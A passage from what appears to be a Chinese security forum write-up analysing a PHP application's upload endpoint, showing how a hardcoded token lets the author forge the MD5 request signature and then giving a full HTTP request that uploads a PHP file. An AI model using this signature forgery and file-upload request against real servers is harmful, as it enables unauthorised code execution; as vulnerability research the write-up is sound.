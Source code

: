‍

继续跟进​`sign_params`​

![image](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-6cae4d0602f493bb3c07bf6ef603cf69fcbb22a0.png)​

‍

如果不理解我们可以写个demo本地测试下

首先流程如下

```bash
我们传入的HTTP参数 这个数组的hash  == 我们sign传入的hash 
```

![image](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-4ec2446afa7298f113f5b8d32d45b48b28740152.png)​

他会把我们传入的`$sign`​不作为`$params`​去传参

![image](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-7910844e04ddd4406d6e5879c547063eaca95ae2.png)​​

那么逻辑就清楚了就是我们`GET`​传参的内容跟我们`token`​传入的内容进行拼接且MD5的值跟我们`$sign`​要相同

![image](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-790199af5904dc8f4cb4a68868e90b66c0a27414.png)​

‍

如果验签成功，就能够进入到`upload`​的逻辑中

之后就调用`upload_file`​这个函数，这个函数我也说了，他是调用`move_uplaoded_file`​函数进行上传的，他接受一个参数`uid`​的值

![image](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-db1c382874594166a2bb3764c95910bd616f7956.png)​

‍

那么在这里我们就尝试进行复现，当刚打开BP我就发现问题了，emmm在上述的demo中我是写死了拼接的字符串的，但是远程是`$this-&gt;config['token']`​ 拼接这个东西啊，所以跟进一下这个`$config`​的内容，发现在最下面就定义了token的内容为`asdasfasfasfasfasfa`​

![image](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-997343409de61a5b12d9010cc33c9329a15cb4cc.png)​

那么就可以直接生成`sign`​了

```php
&lt;?php echo md5("md=upload&amp;uid=1asdasfasfasfasfasfa");?&gt;
```

那么继续复现

```bash
POST /server/index.php/start?md=upload&amp;uid=1&amp;sign=e8766abd8742eb67a2c07b089ecf636a HTTP/1.1
Host: wp.com
Cache-Control: no-cache
Accept: */*
Accept-Encoding: gzip, deflate, br
Content-Type: multipart/form-data; boundary=--------------------------570796120375390059114427
User-Agent: PostmanRuntime-ApipostRuntime/1.1.0
Content-Length: 389

----------------------------570796120375390059114427
Content-Disposition: form-data; name="file"; filename="1.php"
Content-Type: application/x-httpd-php

&lt;?php phpinfo(); ?&gt;
----------------------------570796120375390059114427--
```

